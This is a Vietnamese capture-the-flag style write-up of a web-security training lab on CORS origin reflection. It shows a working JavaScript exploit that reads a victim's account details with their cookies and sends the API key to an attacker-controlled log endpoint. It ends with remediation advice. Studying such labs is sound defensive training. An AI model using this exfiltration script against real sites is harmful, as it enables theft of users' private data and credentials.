









# Lab: CORS vulnerability with basic origin reflection

This website has an insecure CORS configuration in that it trusts all origins.
> Website này có cấu hình CORS không an toàn vì nó tin tưởng tất cả các origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
> Để giải lab, hãy viết đoạn JavaScript dùng CORS để lấy API key của administrator rồi upload lên exploit server. Lab được giải khi submit thành công API key của administrator.

You can log in to your own account using the following credentials: wiener:peter
> Bạn có thể đăng nhập bằng thông tin đăng nhập sau: wiener:peter

E đăng nhập bằng tài khoản `wiener:peter`. Trang My Account hiển thị username và API key của tài khoản.



Xem lại HTTP history trong Burp, e thấy API key được lấy qua một request AJAX tới endpoint `/accountDetails`. Response trả về JSON chứa `username`, `email`, `apikey`, `sessions` và kèm header `Access-Control-Allow-Credentials: true` → server cho phép gửi kèm cookie trong request cross-origin, gợi ý endpoint này có bật CORS.



E gửi request sang Repeater và thêm header `Origin: https://example.com` để thử. Kết quả server phản hồi lại đúng origin đó:

```
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
```

→ Server **phản chiếu (reflect) nguyên giá trị header `Origin`** vào `Access-Control-Allow-Origin` mà không kiểm tra whitelist, lại kèm `Allow-Credentials: true`. Nghĩa là bất kỳ domain nào cũng có thể gửi request kèm cookie của nạn nhân và **đọc được response**.





> Lưu ý: nếu server trả `Access-Control-Allow-Origin: *` thì trình duyệt sẽ chặn việc gửi kèm credentials. Nhưng ở đây server reflect một origin cụ thể nên trình duyệt chấp nhận cả cookie, cho phép đọc dữ liệu nhạy cảm của nạn nhân.

Khai thác: e vào **Go to exploit server** và đặt đoạn JavaScript vào phần Body. Đoạn script tạo một request tới `/accountDetails` kèm `withCredentials = true` (để gửi cookie của nạn nhân), sau đó đẩy response về server của mình qua `/log?key=`:

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location = '/log?key=' + encodeURIComponent(this.responseText);
    }
</script>
```



E bấm **Store** rồi **Deliver exploit to victim**. Khi nạn nhân (administrator) truy cập trang, script chạy trong phiên của họ, gọi `/accountDetails` và gửi toàn bộ response (gồm `apikey`) về `/log` trên exploit server.

Xem **Access log** của exploit server, e thấy request `GET /log?key=...` chứa dữ liệu account của administrator, trong đó có `username: administrator` và `apikey`.







E copy giá trị API key `dEVcZnonO1usoDNluZxZnPhEh6GVdzbh`, bấm **Submit solution** và dán key vào để hoàn thành lab.



## Kết luận

- Lỗ hổng nằm ở việc server **reflect thẳng header `Origin`** vào `Access-Control-Allow-Origin` kèm `Access-Control-Allow-Credentials: true`, tức tin tưởng mọi origin.
- Kẻ tấn công chỉ cần dụ nạn nhân truy cập trang chứa mã độc; trình duyệt sẽ tự gửi kèm cookie và trả response (dữ liệu nhạy cảm) về cho attacker.
- **Khắc phục:** chỉ cho phép các origin trong whitelist tin cậy, không reflect origin tùy ý; chỉ bật `Allow-Credentials` khi thực sự cần và luôn kiểm tra chặt chẽ giá trị `Origin`.
